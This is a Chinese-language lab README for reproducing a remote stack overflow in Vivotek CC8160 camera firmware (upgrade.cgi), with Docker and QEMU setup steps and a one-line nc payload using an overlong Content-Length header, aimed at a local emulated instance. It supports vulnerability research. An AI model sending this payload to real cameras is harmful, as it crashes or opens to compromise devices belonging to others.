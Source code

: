 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建 binwalk 并解包固件
$ cd baseImage/binwalk
$ docker build -t binwalk .
$ cd Vivotek/remote_stack_overflow
$ docker run -v $PWD/firmware:/root/firmware binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取 binwalk 并解包固件
$ docker pull firmianay/binwalk
$ docker run -v $PWD/firmware:/root/firmware firmianay/binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --privileged -p 8888:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 arm gdbserver 并复制到 system-emu/tools 目录。

```sh
# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/armel
$ docker build -t qemu-system:armel .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 8888
```

![img](./crash.png)


## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
